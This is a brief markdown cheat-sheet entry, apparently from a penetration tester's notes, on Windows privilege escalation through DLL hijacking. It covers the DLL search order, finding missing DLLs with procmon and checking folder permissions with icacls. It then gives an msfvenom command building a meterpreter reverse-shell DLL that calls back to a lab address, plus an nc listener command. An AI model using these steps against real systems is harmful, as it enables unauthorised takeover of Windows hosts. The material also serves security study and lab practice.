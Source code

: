 ```yaml
---
title: DLL hijacking
category: win privesc
order: 1
---
```


[WPE-05 - DLL Hijacking](https://pentestlab.blog/2017/03/27/dll-hijacking/)
In Windows environments when an application or a service is starting it looks for a number of DLL’s in order to function properly. If these DLL’s doesn’t exist or are implemented in an insecure way (DLL’s are called without using a fully qualified path) then it is possible to escalate privileges by forcing the application to load and execute a malicious DLL file.

It should be noted that when an application needs to load a DLL it will go through the following order:

1.    The directory from which the application is loaded
2.    C:\Windows\System32
3.    C:\Windows\System
4.    C:\Windows
5.    The current working directory
6.    Directories in the system PATH environment variable
7.    Directories in the user PATH environment variable

# 1 find process with missing dll
use procmon from sysinternals to check for missing dlls ("NAME NOT FOUND")

## 1.1 filters
Process Name is <[Value]>
Result is <[NAME NOT FOUND]>
Path ends with .dll*

# 2 confirm that you have write permissions to any of the folders
```
c:/path/to_inject/dll>: icacls .
 risus-PC\risusUser:(I)(OI)(CI)(F)
```

importantn values:
```
a sequence of simple rights:
     N — no access
     F — full access
     M — modify access
     RX — read and execute access
     R — read-only access
     W — write-only access
     D — delete access
```


# 3 create dll
## 3.1 reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f dll -o evil.dll
```
## 3.2 create user
TODO

# 4 start listener
```
nc -nlvp 4444
```

# 5 copy dll to path and rerun service/program
